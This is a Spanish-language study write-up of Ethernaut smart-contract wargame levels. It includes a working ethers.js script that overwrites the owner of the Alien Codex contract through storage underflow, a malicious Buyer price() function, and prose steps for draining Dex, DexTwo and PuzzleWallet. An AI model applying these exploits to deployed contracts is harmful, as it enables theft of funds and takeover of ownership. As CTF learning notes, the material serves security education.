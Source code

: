 # Comentarios y aprendizajes de resolver el ethernaut

## Alien Code X

Clave entender como funcionan los arrays dinámicos en solidity, es decir, los que se definen por ejemplo `bytes32[]`. En el slot de memoria correspondiente solo se va a guardar el tamaño del array en cuestión, pero la data se va a alojar en el `keccak(slot_id)`.

Imagino que luego solidity lo que hace es: si tengo que leer de la posición 15, voy a buscar el elemento en la dirección `keccak(slot_id) + 15`.

Para resolverlo hay que, de alguna manera, forzar a escribir en el slot 0 donde está el owner del contrato.

- slot_0
- .
- .
- slot_array = keccak(1) = 0xc89efdaa54c0f20c7adf612882df0950f5a951637e0307cdcb4c672f298b8bc6 = 90743482286830539503240959006302832933333810038750515972785732718729991261126

Es decir, cuando quiero escribir en el index 0 del array, en verdad estoy queriendo escribir en en slot 90743482286830539503240959006302832933333810038750515972785732718729991261126. Si escribo en MAX_SLOT_ID - 90743482286830539503240959006302832933333810038750515972785732718729991261126 escribiré en el slot 0, porque me voy a pasar por overflow.

```
    const [firstOwner, usurper] = await ethers.getSigners();

    const factory = await ethers.getContractFactory("Alien");
    const alien = await factory.deploy();
    const contractAddy = await alien.getAddress();

    await alien.makeContact();
    // Con este valor en el slot de storage 1, podre reemplazar el owner por el que yo quiero.
    const desiredStorageValueWithNewOwner = `0x000000000000000000000001${usurper.address.substring(
      2
    )}`;
    // Al hacer retract, por el underflow de uint, el contrato asume que el array codex tiene la capacidad llena.
    // Con eso, me dejara escribir con el metodo `revise` en cualquier dirección
    await alien.retract();

    // por como funciona el dynamic array storage, este hash es la dirección de memoria donde estan los datos del array de manera consecutiva.
    const secondSlotHash = ethers.keccak256(
      "0x0000000000000000000000000000000000000000000000000000000000000001"
    );
    const startArrayStorageDirection = ethers.toBigInt(secondSlotHash);
    const valorEnStorage = await ethers.provider.getStorage(
      contractAddy,
      startArrayStorageDirection
    );
    // Por definicion de solidity, todo contrato tiene 2^256 slots de memoria
    const MAX_CONTRACT_SLOT_ID = ethers.toBigInt(2) ** ethers.toBigInt(256);
    // MAX_CONTRACT_SLOT_ID - startArrayStorageDirection es la distancia que hay desde
    // el slot de memoria donde arrancan los valores del array, hasta que me paso por overflow
    // al primer slot de memoria (donde justo esta el valor del addres!!)
    await alien.revise(
      MAX_CONTRACT_SLOT_ID - startArrayStorageDirection,
      desiredStorageValueWithNewOwner
    );
    expect(await alien.owner()).to.equal(usurper.address);
```

## Denial

El contrato tiene un owner definido. Recibe fondos en ese contrato, y cualquiera pueda ejecutar la funciona withdraw que lo que hace es enviar un 1% de los fondos al owner, y otro 1% al que ejecuta la transacción.

Acá la papa está en que no se chequea el resultado del call al partner (adrede) para que eso no bloquee que le lleguen los fondos al owner.

```
function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }
```

Entonces si el partner es un contrato, y adentro hace cualquier fruta, eso queda en un loop donde nunca el owner puede extraer los fondos. Queda bloqueado. Para sortear eso, donde queremos que "no nos importe revertir" la mejor práctica sería ponerle un gaslimit al call a un contrato externo. Esto haría que revierta el call, pero como no nos importa el resultado, el owner seguiría recibiendo sus fondos.

### Buyer

Acá se define una interfaz que debe ser implementada por el msg.sender. El tema es que quien la implementa puede definir el comportamiento que sea, entonces muy probablemente con implementar la interfaz y hacer que el método view "price" devuelva un precio mayor al del contrato `Shop` sea suficiente.

Ok no, en específico dice que el precio debe ser menor.

Lo clave está en que al ser una función view (y no pure) la misma puede acceder al estado de otros contratos, entonces, se puede hacer algo de este estilo:

```
function price() external view returns (uint) {
        if (shop.isSold()) {
            return 50;
        }
        return 150;
    }
```

## Dex

Acá basicamente hay que engañar al DEX para llevarme toda la liquidez de alguno de los dos tokens. Se me ocurren algunas ideas:

- Por lo que voy probando, al no tener manejo de decimales el dex, se puede empezar a descontrolar el precio cuando me queden precios con coma. Por ejemplo, cuando me quede un precio de 2,4 el contrato siempre redondea a 2.
- Jugando un poco con los swaps, pude conseguir sacar toda la liquidez de uno de los tokens.

# DexTwo

- Acá al no haber un require de que el `from` o el `to` sean los tokens que tienen liquidez en el dex, puedo crear un erc20 falopa, transferirle liquidez al dex y swapear para que el precio se calcule a partir del erc20 falopa.

# PuzzleWallet

- Algo interesante es que el proxy utilizado tiene dos variables `address` y el puzzleWallet tiene en el primer slot un `address owner` y en el segundo el `uint maxBalance`. Por como se maneja eso en el delagateCall, yo llamé al método proposeNewAdmin que lo que hace es escribir en la primer ubicación de memoria el address que viene por parámetro. Sin embargo, eso en el contrato PuzzleWallet representa el owner, por lo tanto, con eso ya me pude asignar el ownership de la wallet y agregarme a la famosa whitelist para operar contra el contrato.
- Me resta sobreescribir el segundo slot, que para PuzzleWallet es un uint256 que representa el balance, pero para el proxy es el admin. Pero para cambiar el MaxBalance, el contrato no debe tener fondos. Entonces, debo realizar un execute que ejecute una transferencia desde el contrato hacia mi address.
- Para hacer ese execute, mi address debe tener depositado el valor que quiero extraer. Inicialmente el contrato tiene 0.001 de balance, pero al hacer un deposit de 0.001 que me permita extraerlo, el contrato tendrá 0.002. Es por esto que tengo que hacer un deposit, y un multicall haciendo un segundo deposit. De esta manera, mi address tiene "acceso" a utilizar 0.002 de value del contrato.
- Hecho el deposit, ya puedo llamar desde mi addres a un execute que haga una transferencia desde el contrato a mi address, drenando los fondos.
- Una vez drenados, solo me queda llamar al maxBalance con mi address, con lo que reemplazaré el admin del proxy (además del maxBalance de la implementación).
